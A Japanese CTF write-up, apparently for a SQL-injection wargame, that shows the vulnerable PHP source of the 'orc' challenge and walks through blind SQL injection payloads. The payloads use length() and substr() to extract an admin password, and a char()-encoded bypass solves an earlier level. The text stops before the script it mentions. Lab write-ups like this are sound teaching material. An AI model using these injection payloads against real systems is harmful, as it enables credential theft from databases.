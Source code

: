 ### 回答
``` sql
select id from prob_goblin where id='guest' and no=-1 or id=char(97,100,109,105,110)
```
## orc

### 問題
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello admin</h2>"; 
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orc where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
  highlight_file(__FILE__); 
?>
```
### 考察
[addslashes関数](https://www.php.net/manual/ja/function.addslashes.php)があるので，シングルクォートを用いてもエスケープされる．
``` php
$_GET[pw] = addslashes($_GET[pw]);
```
以下の制約もあるので，クエリにadminのpwが必要．
``` php
if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orc"); 
```

blindsqliを使う．
試しに以下のようなクエリを投げるとHello adminと表示されるのでblindsqliが可能．
``` sql
select id from prob_orc where id='admin' and pw='' or true > 1 #'
```
まず，pwの長さを確認するために，length関数を使う．
以下のようにちまちま確かめると，8文字だとわかる．
``` sql
select id from prob_orc where id='admin' and pw='' or id='admin' and length(pw) > 1 #'
```
ここからは8文字のパスワードを実際に当てていく．そこで，[substr関数](https://www.php.net/manual/ja/function.substr.php)を用いる．  
以下のように，substr(文字列，何文字目から，文字数)のように使う．  
``` sql
select id from prob_orc where id='admin' and pw='' or id='admin' and substr(pw, 1, 1) = 2 #'
```

さすがに全文字を書くのは辛いので，スクリプトを書いた．

